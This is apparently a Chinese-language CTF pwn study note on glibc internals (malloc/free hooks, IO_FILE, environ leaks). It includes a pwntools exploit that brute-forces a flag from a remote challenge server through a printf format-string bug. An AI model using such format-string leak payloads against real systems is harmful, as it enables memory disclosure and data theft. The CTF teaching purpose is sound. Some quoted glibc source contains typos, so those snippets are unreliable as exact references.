


1. **free_hook/malloc_hook**

下面是源代码示例*glibc-2.27, glibc>=2.34 被移除*)

```c
void*
__libc_malloc (size_t bytes)
{
  mstate ar_ptr;
  void* victim;

  void *(*hook) (size_t, const void*)
    = atomic_forced_read (__malloc_hook)
  
  if (__buildtin_expect (hook != NULL, 0))
      return (*hook)(bytes, RETURN_ADDRESS (0));

#if USE_TCACHE
  ...
}
// RIP
```

通过这段源码可以很容易发现，`byets` 是用户传入参数， 这里将钩子的值赋值给`hook` ,然后去调用这个`hook`，传入参数是`bytes`, `free` 方法同理
但是 `free` 接受的是一个指针

2. **`IO_FILE`结构体**

下面是源代码示例 *glibc-2.35*
```c
struct _IO_FILE
{
  int  _flag; // important

  char *_IO_read_ptr;
  char *_IO_read_end;
  char *_IO_read_base;
  char *_IO_write_ptr;
  char *_IO_write_end;
  ...

  struct _IO_marker *_markers;
  struct _IO_FILE *_chain; // important!
  ...

}
...

struct _IO_FILE_complete
{
  struct _IO_FILE _file;

  struct _IO_codecvt *_codecvt;    // important
  struct _IO_wide_data *_wide_data; // important
  struct _IO_FILE *_freeres_list;
  
  void *_freeres_buf;
  size_t __pad5;
  int _mode; // important

  ...
}
```

`IO_FILE` 这个结构体会在 `puts` 等函数运行时被调用, 但是在`read/write` 为系统调用。

3. 地址任意写. 栈地址的主要泄露方式: ***environ*** 泄露
```c
#include <unsid.h>
#include <stddef.h>

char **__environ = NULL;
weak_alias (__environ, environ)

weak_alias (__environ, _environ)
...
```
观察 glibc 可以发现这是一个全局变量, `environ` 是环境变量的初始地址， 环境变量在程序加载的时候就已经加载入了栈底，有时候可能flag也会连同加载进入环境变量



比如这道题题目 [`Mission Final Dance`](https://www.ctfplus.cn/problem-detail/1996418893215698944/description)
将题目拖入ida 发现如下重要函数
```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  puts("In a dream like a silkworm cocoon...");
  puts("Dance! dance your last dance!");
  read(0, buf, 0x100u);
  printf(buf);
  close(1);
  exit(0);
}
```

可以发现 这里存在一个`fmt` 题目中存在一个fmt， 同时flag在环境变量中存在，所以可以直接爆破出flag

:::note
于是得到如下 `exp`
:::

```python
from pwn import *

file = "./pwn_patched"
host = "nc1.ctfplus.cn"
port = 15247

isRemote = True

context.log_level = "info"
context.binary = file

if isRemote:
  p = remote(host, port)
else:
  p = process(file)

elf = ELF(file)
rop = ROP(elf)

for i in range(20, 120):
  try:
    # p = process(file)
    p = remote(host, port)
    p.recvuntil(b"Dance! dance your last dance!\n")
    p.sendline(f"%{i}$s".encode())
    
    log.info(f"%{i}$s: {p.recvline()}")
    p.close()
    sleep(.1)
  except EOFError:
    continue
  # p.recvline()
# flag %49$p

p.interactive()
```


:::note
所以在在存在fmt的情况 可以尝试去爆破栈上是否存在flag，可能出题人有意无意可能会将flag，通过`environ` 将 flag 放到栈底
:::

<!-- 4. 程序包含回调函数或者虚表函数调用等情况 -->

